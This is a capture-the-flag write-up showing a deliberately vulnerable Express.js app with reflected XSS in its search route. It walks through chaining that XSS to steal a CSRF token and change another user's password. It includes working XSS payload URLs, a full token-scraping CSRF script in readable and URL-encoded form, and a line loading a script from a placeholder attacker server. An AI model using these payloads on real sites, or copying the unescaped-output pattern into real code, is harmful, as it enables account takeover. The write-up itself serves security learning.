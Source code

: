 ## js code

<details>
   <summary>code</summary>

```js
const express = require('express');
const session = require('express-session');
const bodyParser = require('body-parser');
const fs = require('fs');
const path = require('path');
const app = express();
const puppeteer = require('puppeteer');


// --------------------------------------------------Auxiliary Code
app.use(bodyParser.urlencoded({ extended: true }));
app.use(session({
    secret: process.env.SESSION_SECRET,
    resave: false,
    saveUninitialized: true
}));

app.use((req, res, next) => {
    if (!req.session.csrfToken) {
        req.session.csrfToken = generateCSRFToken();
    }
    next();
});

const crypto = require('crypto');

function generateCSRFToken() {
    return crypto.randomBytes(32).toString('hex');
}

function verifyCSRF(req, res) {
    const tokenFromBody = req.body._csrf;
    const tokenFromSession = req.session.csrfToken;
    return tokenFromBody && tokenFromSession && tokenFromBody === tokenFromSession;
}

function escapeHTML(str) {
    return String(str).replace(/[&<>"'`=\/]/g, function (char) {
        return {
            '&': '&amp;',
            '<': '&lt;',
            '>': '&gt;',
            '"': '&quot;',
            "'": '&#x27;',
            '`': '&#x60;',
            '=': '&#x3D;',
            '/': '&#x2F;'
        }[char];
    });
}

// Insecure in-memory users database, only for XSS challenge purposes
const users = {
    alice: { username: 'alice', password: 'pass', bio: 'Hi, I am Alice!' },
    bob: { username: 'bob', password: process.env.BOB_PASS, bio: 'Hello from Bob!' }
};

let sharedComments = [];


function isAuthenticated(req) {
    return req.session && req.session.username && users[req.session.username];
}

function renderHTML(filePath, replacements = {}) {
    let content = fs.readFileSync(path.join(__dirname, 'public', filePath), 'utf-8');
    for (let key in replacements) {
        const regex = new RegExp(`{{${key}}}`, 'g');
        content = content.replace(regex, replacements[key]);
    }
    return content;
}

// -------------------------------------------- Routes

app.get('/', (req, res) => {
    if (isAuthenticated(req)) return res.redirect('/profile');
    res.send(renderHTML('login.html', { error: '' }));
});

// Insecure login flow, only for XSS challenge purposes
app.post('/login', (req, res) => {
    const { username, password } = req.body;

    if (users[username] && users[username].password === password) {
        req.session.username = username;

        // Set masterkey cookie
        let masterKeyValue = '';

        if (username === 'alice') {
            masterKeyValue = 'DEMOMASTERKEY';
        } else if (username === 'bob') {
            try {
                masterKeyValue = fs.readFileSync('/tmp/masterkey.txt', 'utf8').trim();
            } catch (err) {
                console.error('[!] Failed to read /tmp/masterkey.txt:', err);
                masterKeyValue = 'ERROR';
            }
        }

        res.cookie('masterkey', masterKeyValue, {
            httpOnly: true, // Not Accessible by javascript code
        });

        return res.redirect('/profile');
    }

    res.send(renderHTML('login.html', { error: '<p class="error">Invalid credentials</p>', csrfToken: req.session.csrfToken }));
});

app.get('/profile', (req, res) => {
    if (!isAuthenticated(req)) return res.redirect('/');
    const user = users[req.session.username];
    res.send(renderHTML('profile.html', {
        username: escapeHTML(user.username),
        bio: escapeHTML(user.bio),
        csrfToken: req.session.csrfToken}));
});

app.post('/profile', (req, res) => {
    if (!isAuthenticated(req)) return res.redirect('/');
    if (!verifyCSRF(req, res)) return res.status(403).send('Invalid CSRF token');
    const { bio, password } = req.body;
    const user = users[req.session.username];
    user.bio = bio;
    if (password && password.trim()) user.password = password;
    res.redirect('/profile');
});

app.get('/shared', (req, res) => {
    if (!isAuthenticated(req)) return res.redirect('/');
    const commentHTML = sharedComments.map(c =>
        `<li><strong>${escapeHTML(c.author)}:</strong> ${escapeHTML(c.text)}</li>`
    ).join('');
    res.send(renderHTML('shared.html', { comments: commentHTML, csrfToken: req.session.csrfToken }));
});

app.post('/shared', (req, res) => {
    if (!isAuthenticated(req)) return res.redirect('/');
    if (!verifyCSRF(req, res)) return res.status(403).send('Invalid CSRF token');
    const comment = {
        author: req.session.username,
        text: req.body.comment
    };
    sharedComments.push(comment);
    res.redirect('/shared');
});

app.get('/search', (req, res) => {
    if (!isAuthenticated(req)) return res.status(401).send('Unauthorized');

    const query = req.query.query || '';
    if (!query) return res.status(400).send('Query parameter is required');

    const results = sharedComments.filter(c => 
        c.text.includes(query)
    );

    let html = `<h2>Search Results for "${query}"</h2>`;
    if (results.length === 0) {
        html += `<p>No matches found.</p>`;
    } else {
        html += '<ul>';
        results.forEach(c => {
            html += `<li><strong>${escapeHTML(c.author)}:</strong> ${escapeHTML(c.text)}</li>`;
        });
        html += '</ul>';
    }

    html += `<br><a href="/shared">Back to Shared Area</a>`;
    res.send(html);
});



app.get('/logout', (req, res) => {
    req.session.destroy(() => {
        res.redirect('/');
    });
});



app.get('/report', async (req, res) => {
    const targetUrl = req.query.url;

    if (!targetUrl || !targetUrl.startsWith('http://localhost/')) {
        return res.status(400).send('Invalid or missing URL (must start with http://localhost)');
    }

    res.send('Bob is checking it out...');

/**
 * 
 * 
 * 
 * 
 * 
 * BOB AUTOMATED LOGIN CODE 
 * 
 * 
 **/


});



app.listen(80, () => {
    console.log('Running on http://localhost:80');
});

```

  
</details>

---


```javascript
// Insecure in-memory users database, only for XSS challenge purposes
const users = {
    alice: { username: 'alice', password: 'pass', bio: 'Hi, I am Alice!' },
    bob: { username: 'bob', password: process.env.BOB_PASS, bio: 'Hello from Bob!' }
};
```


```ruby
alice : pass
```

----


```javascript
let html = `<h2>Search Results for "${query}"</h2>`;
```

#### **`http://18.201.68.91/search?query=%3Cscript%3Ealert(4)%3C/script%3E`**

<img width="1099" height="294" alt="image" src="https://github.com/user-attachments/assets/1aaf0317-6499-4c51-a30f-518c6bd1a69d" />


---

## httponly is True

```javascript
 res.cookie('masterkey', masterKeyValue, {
            httpOnly: true, // Not Accessible by javascript code
        });
```



## if we try to get cookie using js

```url
http://18.201.112.94/search?query=%3Cimg+src%3Dx+onerror%3Dalert%28document.cookie%29%3E
```

<img width="1477" height="427" alt="image" src="https://github.com/user-attachments/assets/ea719d5a-20a0-44f3-a53f-1e16ca854d3e" />



## found that there is CSRF VULN

```javascript
 app.post('/profile', (req, res) => {
    if (!isAuthenticated(req)) return res.redirect('/');
    if (!verifyCSRF(req, res)) return res.status(403).send('Invalid CSRF token');
```



## try to change **`bob`** password 


<details>
  <summary>CSRF poc</summary>


```html
<script>
fetch('/profile', {
  method: 'GET',
  credentials: 'include'
})
  .then(response => response.text())
  .then(html => {
    const parser = new DOMParser();
    const doc = parser.parseFromString(html, 'text/html');

    const csrfToken = doc.querySelector('input[name="_csrf"]').getAttribute('value');

    const params = new URLSearchParams();
    params.append('_csrf', csrfToken);
    params.append('bio', 'I\'ve been hacked!');
    params.append('password', 'NewPass');

    return fetch('/profile', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
      },
      body: params.toString(),
      credentials: 'include'
    });
  })
  .then(postResponse => {
    if (postResponse.ok) {
      console.log('POST successful');
    } else {
      console.error('POST failed');
    }
  })
  .catch(err => console.error('Error:', err));
</script>
```


We can send this to Bob using the ``/report`` endpoint.


```url
http://localhost/search?query=PAYLOAD
```

#### or

```url
http://localhost/search?query=<script src='https://<attacker-server>/payload.js'></script>
```


  
</details>




```
http://localhost/search?query=%3Cscript%3Efetch('/profile'%2C%7Bmethod%3A'GET'%2Ccredentials%3A'include'%7D).then(r%3D%3Er.text()).then(html%3D%3E%7Bconst parser%3Dnew DOMParser()%3Bconst doc%3Dparser.parseFromString(html%2C'text%2Fhtml')%3Bconst token%3Ddoc.querySelector('input%5Bname%3D%22_csrf%22%5D').value%3Bconst params%3Dnew URLSearchParams()%3Bparams.append('_csrf'%2Ctoken)%3Bparams.append('bio'%2C'Hacked!')%3Bparams.append('password'%2C'NewPass123')%3Bfetch('/profile'%2C%7Bmethod%3A'POST'%2Cheaders%3A%7B'Content-Type'%3A'application%2Fx-www-form-urlencoded'%7D%2Cbody%3Aparams.toString()%2Ccredentials%3A'include'%7D)%3B%7D)%3C%2Fscript%3E

```


```
bob : NewPass123
```



<img width="1883" height="770" alt="image" src="https://github.com/user-attachments/assets/5a07512d-94c4-410f-905b-d6a00ee74ee0" />






```
0a3433fb2e41367af97b5712b3d01e37
```

## Conclusion:

- The CSRF was theoretically secured.

- But XSS breaks the protection because you can run the code from within the browser and get the token that is supposed to be secret.

- Since cookies are ``HttpOnly``, you cannot steal them directly.
- Instead, I stole the token and conducted a successful CSRF attack.

### 🔹 In short:

> XSS + CSRF = Full Account Takeover.
> XSS allows you to bypass CSRF restrictions and act as if you were the victim yourself.
























